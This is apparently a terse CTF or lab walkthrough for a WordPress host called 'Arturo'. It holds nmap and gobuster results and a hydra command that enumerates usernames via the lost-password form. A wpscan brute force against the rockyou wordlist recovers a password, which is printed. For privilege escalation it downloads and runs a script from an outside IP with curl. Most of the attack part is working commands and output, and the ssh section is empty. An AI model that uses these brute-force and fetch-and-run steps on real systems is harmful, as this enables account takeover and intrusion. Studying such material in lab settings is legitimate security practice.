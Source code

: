 # enum
## nmap
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 85:87:85:bd:f2:c3:1f:8c:92:1e:e1:2b:7c:4c:22:b2 (RSA)
|   256 e4:46:be:5e:c8:b0:14:24:15:7e:b7:77:ed:2e:13:69 (ECDSA)
|_  256 80:68:a3:63:43:39:16:07:64:64:a3:1f:02:91:dd:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.56
|_http-title: Arturo
|_http-generator: WordPress 6.2
|_http-server-header: Apache/2.4.56 (Debian)
```

## gobuster
/wp-admin             (Status: 301) [Size: 315] [--> http://arturo.seela/wp-admin/]
/wp-content           (Status: 301) [Size: 317] [--> http://arturo.seela/wp-content/]
/wp-includes          (Status: 301) [Size: 318] [--> http://arturo.seela/wp-includes/]

# foothold
```
hydra -L /usr/share/wordlists/rockyou.txt -p test arturo.seela http-form-post '/wp-login.php?action=lostpassword:user_login=^USER^&wp-submit=Get+New+Password:F=There is no account with that username or email address.'
```
	[80]  [http-post-form] host: arturo.seela   login: misha   password: test
```
wpscan --usernames misha -P /usr/share/wordlists/rockyou.txt --force --password-attack wp-login --url arturo.seela --no-update
```
Password: 
```
tequieromucho
```

## ssh

# privesc
## gtfobin
```
cat user.txt
curl http://10.201.1.201/gtfonow.py -o /tmp/gtfonow.py

python3 /tmp/gtfonow.py

```
